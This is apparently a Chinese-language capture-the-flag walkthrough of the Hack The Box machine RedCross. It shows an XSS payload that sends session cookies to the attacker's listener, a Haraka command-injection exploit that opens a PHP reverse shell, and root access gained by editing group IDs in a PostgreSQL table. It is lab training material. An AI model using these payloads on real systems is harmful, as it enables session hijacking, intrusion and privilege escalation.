 ```yaml
---
description: 中等 / XSS / PostgreSQL
---
```


# ✔️ RedCross

## 建立立足点

### 信息收集

* 使用Nmap进行对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA redcross 10.129.9.55 --open
```

<figure><img src="../../.gitbook/assets/1 (33).png" alt=""><figcaption></figcaption></figure>

* 检查80端口上的内容，发现它重定向到https://intra.redcross.htb/这个地址，将域名添加到/hosts文件中，然后再次访问，获得一个登录页面：

<figure><img src="../../.gitbook/assets/2 (31).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/3 (28).png" alt=""><figcaption></figcaption></figure>

* 尝试几个弱口令均失败后，使用dirsearch扫描是否有隐藏文件/目录，没什么收获：

```bash
dirsearch -u  http://10.129.9.55 -x 403,404,400
```

<figure><img src="../../.gitbook/assets/4 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用Wfuzz尝试扫描子域，发现有两个结果：

```bash
wfuzz -c -u https://intra.redcross.htb -H "Host:FUZZ.redcross.htb" -w subdomains-top1million-110000.txt --hc 404 -t 200 --hl
```

<figure><img src="../../.gitbook/assets/5 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将以上子域也添加到/hosts文件中，再访问admin这个子域就获得了一个管理登录界面，简单尝试几个弱口令均失败：

<figure><img src="../../.gitbook/assets/6 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 找到的两个登录界面也没有查看到所使用的公开已知的软件信息，因此无法通过常规的搜寻公开已知漏洞进行利用。在当前没有任何有效凭证的情况下，尝试暴力破解无果。决定从头枚举，发现遗漏了对443端口的扫描：

```bash
dirbuster -u https://intra.redcross.htb:443 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -r
```

* 陆续又扫出一些目录和页面：

<figure><img src="../../.gitbook/assets/8 (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (28).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 花了大量的时间进行扫描，实在是没找到什么有用的东西和凭证，所以决定从已经枚举出的页面进行测试。因为其他几个都是登录页面，所以先从有输入框的contact页面开始进行XSS测试，先寻找XSS注入点。
* 首先简单写个\<script>脚本标签，依次放入不同的输入框中进行POST提交，观察有无返回信息，以及返回信息的具体内容：

<figure><img src="../../.gitbook/assets/11 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 当把\<script>脚本标签放入contact phone or email这个框中时，返回了已发送的提示，说明此时我们已找到了注入点：

<figure><img src="../../.gitbook/assets/13 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 然后开始构建注入语句，先简单测试一下和本机是否通信：

```html
# 在输入框中
<script src="http://10.10.16.17:8888/test"></script>
# 在Kali本机做好监听
nc -lvnp 8888
```

<figure><img src="../../.gitbook/assets/16 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 然后构建一个尝试获取有效的会话cookie的语句，当能获取到有效的cookie时，我们就能将该cookie放入自己的浏览器中，绕过原有的密码输入，伪装成该用户进行登录：

<pre class="language-html"><code class="lang-html">nc -lvnp 8888
<strong>&#x3C;script>new Image().src="http://10.10.16.17:8888/test.php?c="+document.cookie;&#x3C;/script>
</strong></code></pre>

<figure><img src="../../.gitbook/assets/17 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18 (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 此时已获取到了有效的PHPSESSIONID，并且后面的域是指向admin的，说明是admin这个页面的cookie，去admin页面登录。替换掉原有的PHPSESSIONID，然后刷新页面即可登录成功：

<figure><img src="../../.gitbook/assets/19 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21.png" alt=""><figcaption></figcaption></figure>

* 进入Network Access，发现是一个设置白名单的界面，将自己的IP先添加进去：

<figure><img src="../../.gitbook/assets/22.png" alt=""><figcaption></figcaption></figure>

* 进入User Management里，添加一个新用户，获得了系统生成的密码，同时还发现了另一个用户tricia：

<figure><img src="../../.gitbook/assets/44.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24.png" alt=""><figcaption></figcaption></figure>

* 尝试用这个有效凭证登录之前的intra页面，登录失败：

<figure><img src="../../.gitbook/assets/25.png" alt=""><figcaption></figcaption></figure>

* 但是根据Nmap的扫描结果，还有一个SSH服务，利用这个有效凭证登录成功：

<figure><img src="../../.gitbook/assets/26.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27.png" alt=""><figcaption></figcaption></figure>

* 里面并没有flag，但是找到了另外一个新用户：penelope
* 因为已经将自己的IP地址加入了目标系统的白名单，再次扫描开放端口发现多了几个：

```bash
nmap -sC -sV -p- -oA redcross2 10.129.6.250 --open
```

<figure><img src="../../.gitbook/assets/28.png" alt=""><figcaption></figcaption></figure>

* 尝试匿名登录FTP失败：

<figure><img src="../../.gitbook/assets/29.png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的输出结果，5432端口上运行了postgresql服务，尝试用默认凭证登录不成功：

<figure><img src="../../.gitbook/assets/30.png" alt=""><figcaption></figcaption></figure>

* 还剩下一个1025端口，因为该端口上运行的并不是常规的服务，所以可以使用netcat和该端口上的服务进行交互，从而获取到它运行的服务名和版本等信息：

```bash
nc -vvvv 10.129.6.250 1025
```

<figure><img src="../../.gitbook/assets/31.png" alt=""><figcaption></figcaption></figure>

* 得到服务为：Haraka 2.8.8，然后搜索相关公开漏洞发现有一个远程命令注入：

<figure><img src="../../.gitbook/assets/33.png" alt=""><figcaption></figcaption></figure>

* 下载搜索到的脚本到本地：

<figure><img src="../../.gitbook/assets/34.png" alt=""><figcaption></figcaption></figure>

* 查看帮助信息如何使用该脚本，并且查看脚本内容发现默认端口处需要修改为目标的开放端口1025：

<figure><img src="../../.gitbook/assets/35.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/36.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/37.png" alt=""><figcaption></figcaption></figure>

* 利用该脚本执行反弹shell，此处用到常用的pentestmokey reverse shell中的PHP反弹shell：

<figure><img src="../../.gitbook/assets/38.png" alt=""><figcaption></figcaption></figure>

```bash
# 注意需要转义符，并在kali本机做好监听
python 41162.py -c "php -r '\$sock=fsockopen(\"10.10.16.17\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'" -t penelope@redcross.htb -m 10.129.6.250
```

<figure><img src="../../.gitbook/assets/39 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/40.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/41.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 常规的枚举检查，没有找到可以利用的点：

<figure><img src="../../.gitbook/assets/42.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/43.png" alt=""><figcaption></figcaption></figure>

* 依次检查目标系统上的各个目录，在/var/www/html/admin/pages目录下找到几个php文件，其中actions.php、login.php、users.php里面都包含了大量的可用于连接postgresql的用户凭证：

<figure><img src="../../.gitbook/assets/45.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/46.png" alt=""><figcaption></figcaption></figure>

* 使用以上用户凭证连接数据库，该文件中已经包含了table名，直接查询获得之前admin界面的两个用户凭证：

```bash
psql -h 127.0.0.1 -p 5432 -U unixusrmgr -d unix
# 查询表里的用户名和密码
SELECT * FROM passwd_table;
```

<figure><img src="../../.gitbook/assets/48.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/47 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 因为系统中的每一个用户都有唯一的UID和GID，当可以滥用sudo配置将任意用户添加进sudo组，就能通过sudo命令执行root权限才能执行的命令，实现提权。查询sudo组的ID为27，将之前新添加进去的用户fiii的GID改为27：

```bash
# 在postgresql中
update passwd_table set gid=27 where uid=2021;
```

<figure><img src="../../.gitbook/assets/49 (1).png" alt=""><figcaption></figcaption></figure>

* 之前已经由目标系统生成了新用户的凭证，所以直接登录ssh服务，然后切换超级用户即可实现提权：

```bash
ssh fiii@10.129.111.68
sudo su
```

<figure><img src="../../.gitbook/assets/50.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/51.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/52.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例完成的并不顺利，对我来说有一些难度。Get Shell阶段当没有任何收获时，多换几个工具扫描试试，但不能一味指望着扫描能扫出来东西，会浪费很多时间。靶场的机器名字有时是关于所使用的应用的漏洞提示，有时还可以是关于攻击手法的提示。权限提升阶段涉及到对目标系统各个文件夹的枚举，并不是因为某第三方软件或者系统有漏洞，而是属于滥用sudo配置可将任意用户添加进sudo组所导致的提权成功。

(本例机器中途重置过，IP地址有变化，但不影响漏洞利用及其实现结果)
{% endhint %}
